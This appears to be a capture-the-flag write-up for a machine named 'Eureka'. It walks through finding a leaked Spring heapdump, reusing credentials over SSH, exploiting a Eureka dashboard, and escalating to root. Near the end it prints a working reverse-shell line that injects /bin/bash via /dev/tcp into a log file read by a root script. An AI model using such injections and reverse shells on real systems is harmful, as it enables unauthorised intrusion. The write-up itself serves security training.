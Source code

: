 # 🎣Eureka

## 🧠Summary
> Initial Nmap scan showed ports 22 (SSH) and 80 (HTTP) open. The website hosted a furniture shop. During enumeration, a suspicious /heapdump endpoint was discovered and downloaded. Extracting strings revealed credentials, which successfully worked for SSH login. Deeper exploration of the file system led to a sensitive config file containing Eureka dashboard credentials. Accessing port 8761 exposed a Spring Eureka admin panel. Using a crafted curl + nc payload inspired by a known Eureka RCE technique, a shell was obtained with a second user. Further privilege escalation was achieved by exploiting a log analyzer script, injecting a reverse shell payload into application.log. Root shell and flag were finally obtained.

## ↘️ASCII Visual
```text
[ Nmap ] → 80, 22  
      |  
      v  
[ Port 80 - Furniture site ]  
      |  
  dirsearch → /heapdump  
      |  
download + strings → creds  
      |  
      v  
[ SSH Access (user1) ]  
      |  
  explore → /var/www/web/Eureka-Sever/…/application.yaml  
      |  
  → creds for port 8761 (Eureka Dashboard)  
      |  
      v  
POST RCE payload (curl + nc)  
      |  
Decode dumped creds (CyberChef)  
      |  
[ SSH Miranda-Wise ] → user.txt  
      |  
      v  
Privilege Escalation → log_analyse.sh  
inject revshell into application.log  
      |  
[ listener ] ← root shell → root.txt
```

## 🔎Nmap scan
- Ran an nmap scan to discover services:
  ![](./screenshots/nmap_scan.png)
- Found only:
    - 22/tcp - SSH
    - 80/tcp - HTTP

## 🌐Web Enumeration
- Used dirsearch to find interesting endpoint
- Found an endpoint called actuator/heapdump
  ![](./screenshots/endpoint.png)
- Went to the endpoint to download a binary file
- Used strings command and found username and password

## 📌Loop hole
- SSH into the machine using the obtained creds
- Explored the machine and found a interesting file called application.yaml
  ![](./screenshots/application.png)
- Found an open port also in the found file entered the website using the open port and found a webpage called spring eureka
  ![](./screenshots/port8761-webpage.png)
- Found a medium post that talks about eureka RCE 👉 [Eureka-RCE](https://medium.com/@mfocuz/hacking-netflix-eureka-8e5957b2f539)
- After that wrote a custom script in bash using (nc + curl)
  ![](./screenshots/exploit.png)
- The link to custom script 👉 [exploit.sh](./exploit.sh)
- I got the password and username the password was encrypted so used cyberchef to decode it and found the password
  ![](./screenshots/decrypt.png)
- SSH into the machine as new user and got the user flag

## 🧪Exploitation
- Used all the known prevelage escalation commands and found nothing useful so manually checked the files and found an interesting file called log_analyse.sh
- Cat the file to find that the file reads and execute the content in the file path /var/www/web/user-management-service/log/application.log
- So wrote a reverse script to opened a listner in my system
  ```bash
  echo 'HTTP Status: x[$(/bin/bash -i >& /dev/tcp/10.10.16.31/4444 0>&1)]' > /var/www/web/user-management-service/log/application.log
  ```
  > (Note:First delete th content in the file and then use the above command)
- Got the reverse shell as root and dumped the root flag 🚩

